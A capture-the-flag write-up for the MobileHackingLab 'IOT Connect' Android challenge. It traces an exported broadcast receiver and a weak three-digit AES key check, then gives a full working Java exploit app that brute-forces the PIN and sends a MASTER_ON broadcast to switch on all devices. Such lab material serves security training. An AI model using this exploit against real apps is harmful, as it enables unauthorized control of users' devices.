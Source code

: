 ## IOT Connect Lab Solution - MobileHackingLab

### Objective

Exploit a Broadcast Receiver Vulnerability: Your mission is to manipulate the broadcast receiver functionality in the "IOT Connect" Android application, allowing you to activate the master switch and control all connected devices. The challenge is to send a broadcast in a way that is not achievable by guest users.

---------
### Solution

#### 1. Checking AndroidManifest.xml

After reverse engineering with JADX and checking AndroidManifest.xml we can see that there is an exported receiver and main activity.

![0](https://github.com/user-attachments/assets/073904c6-7c0d-4ad6-9ea1-5bb60d4ffcf7)


#### 2. Checking Receiver

Receiver class is not implemented, instead it is dynamically created inside code as seen in the image. So we should find where this function is called.

![1](https://github.com/user-attachments/assets/33e7c935-bc5b-403a-bc46-16a3ebc8aeb0)



#### 3. Find where initialize function is called

I have found that inside LoginActivity.onCreate (which is Main activity and exported) this function is called. So we first have to create an intent to start this activity then send broadcast.

![2](https://github.com/user-attachments/assets/b839f28d-798c-4253-81fc-85268277849b)



#### 4. Analyzing receiver function

Well Let's comeback to our screenshot at 2nd part.

![1](https://github.com/user-attachments/assets/239f2102-8480-42f3-8e9d-ea1443dc5600)

Checking the function we can see that it expects action "MASTER_ON" and also an integer key value which is then used inside Checker.INSTANCE.check_key(key), let' s check that function



#### 5. Analyzing Checker.INSTANCE.check_key

Analyzing that function, we can see that it decrypts a DS string with AES algorithm and given key. This decryption should result with a string "master_on".

![4](https://github.com/user-attachments/assets/540c8300-b981-4f01-966e-d25cd15afdaf)



#### 6. Checking PIN

Checking the PIN function we can see that it expects 3 digit PIN value.

![5](https://github.com/user-attachments/assets/0ffa6d35-515d-4453-a017-4c1db08495ac)



#### 7. Create a script to exploit

After analyzing everthing I created a script that uses 3 digit (000-999) PIN values to decrypt DS string and if decryption results with string "master_on", LoginActivity is started then Broadcast is sent with MASTER_ON action.

```java
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;
import android.view.View;
import android.widget.Button;
import android.widget.TextView;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import android.util.Base64;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;



public class MainActivity extends AppCompatActivity {
    TextView mainText;
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);

        Button button = findViewById(R.id.mainButton);

        mainText = findViewById(R.id.mainText);
        mainText.setText("The Flag is Below \n");
        button.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                bruteForce();
            }
        });
    }


    private static final String ALGORITHM = "AES";
    private static final String DS = "OSnaALIWUkpOziVAMycaZQ==";
    private static final String EXPECTED_PLAINTEXT = "master_on"; 

    public void bruteForce() {
        for (int pin = 0; pin <= 999; pin++) {
            String pinStr = String.format("%03d", pin);
            try {
                String decryptedText = decrypt(DS, pinStr);
                if (EXPECTED_PLAINTEXT.equals(decryptedText)) {
                    Log.d("FOUND PIN", "Correct PIN: " + pinStr);

                    Intent intent = new Intent();
                    intent.setClassName("com.mobilehackinglab.iotconnect","com.mobilehackinglab.iotconnect.LoginActivity");
                    intent.setAction("android.intent.action.MAIN");
                    intent.addCategory("android.intent.category.LAUNCHER");
                    startActivity(intent);

                    Intent receiver = new Intent();
                    receiver.setAction("MASTER_ON");
                    receiver.putExtra("key", pin);
                    sendBroadcast(receiver);
                    break;
                }
            } catch (Exception ignored) {}
        }
    }

    public static String decrypt(String ds2, String key) throws Exception {
        SecretKeySpec secretKey = generateKey(key);
        Cipher cipher = Cipher.getInstance(ALGORITHM + "/ECB/PKCS5Padding");
        cipher.init(Cipher.DECRYPT_MODE, secretKey);

        byte[] decodedBytes = Base64.decode(ds2, Base64.DEFAULT);
        byte[] decryptedBytes = cipher.doFinal(decodedBytes);
        return new String(decryptedBytes, "UTF-8").trim();
    }

    private static SecretKeySpec generateKey(String staticKey) {
        byte[] keyBytes = new byte[16];
        byte[] staticKeyBytes = staticKey.getBytes();
        System.arraycopy(staticKeyBytes, 0, keyBytes, 0, Math.min(staticKeyBytes.length, keyBytes.length));
        return new SecretKeySpec(keyBytes, ALGORITHM);
    }
}
```
